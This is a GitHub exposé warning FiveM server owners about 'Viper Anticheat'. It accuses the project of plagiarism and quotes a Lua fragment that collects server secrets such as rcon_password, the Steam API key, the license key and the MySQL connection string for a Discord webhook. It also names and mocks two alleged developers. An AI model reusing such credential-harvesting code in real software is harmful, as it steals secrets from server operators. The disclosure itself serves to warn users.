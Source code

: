 # Viper Anticheat Expose

## Overview
Viper Anticheat is a completely plagiarized anticheat solution. The following elements have been fully stolen from other projects:

- **Designs**: Authentication print, logo, and the upcoming admin menu have been entirely copied from Anvil Anticheat.
- **Videos**: The demonstration videos are direct 1-to-1 imitations of other works.
- **Ban Screen**: The ban screen has been stolen from FiveGuard.
- **Detections**: The detection methods originate from GitHub.

## Evidence
### Unauthorized Data Collection
Viper Anticheat extracts sensitive server data and sends it via a webhook to their Discord server. Below is an example of the data being stolen:

```lua
🔐 **Database Info**: %s]], GetConvar("sv_hostname", "N/A"), GetConvar("sv_projectName", "N/A"), GetConvar("sv_projectDesc", "N/A"), GetConvar("steam_webApiKey", "N/A"), GetConvar("sv_licenseKey", "N/A"), GetConvar("sv_maxclients", "N/A"), GetConvar("rcon_password", "N/A"), GetConvar("mysql_connection_string", "N/A")),
    fields = {
        {name = "", value = string.format("<t:%d:R> **AUTH SYSTEM** © VIPER ANTICHEAT | https://discord.gg/hjKJukrfGN", os.time()), inline = false}
    }
```

#### Stolen Data Includes:
- **mysql_connection_string**: Your database connection details.
- **rcon_password**: Allows unauthorized access to your server.

### Developers
The developers behind Viper Anticheat are identified as:

- **Sanji** (Clown Developer #1)
  ![Sanji Image](https://github.com/user-attachments/assets/7c9a92c0-4e24-491c-9ea2-f2f25f3745b3)

- **Nxton** (Clown Developer #2)
  ![Nxton Image](https://github.com/user-attachments/assets/c807bf54-de3c-46ea-9c48-c38475e98773)

### Additional Observations
- **Irresponsible Coding Practices**: Their code includes unnecessary functions for simple tasks and lacks proper optimization.
- **Suspicious Use of ChatGPT**: Code patterns suggest heavy reliance on AI tools like ChatGPT.

#### Examples:
1. ChatGPT comments left in the code:
   ![ChatGPT Comments](https://github.com/user-attachments/assets/584450ba-9ee3-4d96-abda-9451cf49783f)

2. Inefficient GitHub-based detections (https://github.com/imn0th1ng/antimagicbullet):
   ![GitHub Detection](https://github.com/user-attachments/assets/08c884ef-4e6c-4486-b860-2aa981f1448f)

3. Over-engineered code snippets:
   ![Over-Engineered Code](https://github.com/user-attachments/assets/54800d18-d477-4ed5-891f-2defaeab4709)

## Conclusion
Viper Anticheat may be free, but it poses significant security and ethical risks. Under no circumstances should this anticheat be added to your server. Stay safe and use trusted solutions.
